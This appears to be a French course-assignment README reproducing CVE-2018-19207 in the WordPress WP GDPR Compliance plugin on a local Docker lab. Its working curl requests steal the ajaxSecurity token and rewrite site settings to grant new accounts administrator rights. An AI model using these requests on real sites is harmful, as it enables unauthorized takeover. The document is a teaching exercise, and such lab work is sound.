 # SDSI

Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers

```
docker-compose up
```

## Configuration de wordpress

1. Se connecter au site via `http://localhost:8000/`

2. Créer le compte administrateur en suivant les instructions (N.B : Attention l'adresse mail n'a pas besoin d'être correcte mais son format doit l'être !)

3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## Exploitation de la faille

### 1. Se connecter sur le home du site

- Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin (copier les quelques caractères composant le token)

```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

### 2. Autoriser la création de nouveaux utilisateurs

Tentez de créer un nouveau compte à l'adresse `http://localhost:8000/wp-login.php?action=register`.

On peut voir le message d'erreur suivant "User registration is currently not allowed." Nous allons modifier les paramètres Wordpress afin d'autoriser la création de nouveaux comptes.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`, on peut désormais créer un nouveau compte sur le site.

### 3. Obtenir les droits administateur

On souhaite désormais que les nouveaux comptes créés aient les droits administrateur par défaut.

- Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
- Paramètres: `action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}`

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

### 4. Obtenir un compte administrateur

Créez-vous un nouveau compte `http://localhost:8000/wp-login.php?action=register`. On vous demande ensuite de vérifier votre adresse mail. Ignorez cette demande (le site n'est pas configuré pour envoyer des mails) et Connectez vous via `http://localhost:8000/wp-login.php` avec le compte admin initial.

Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator". Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").
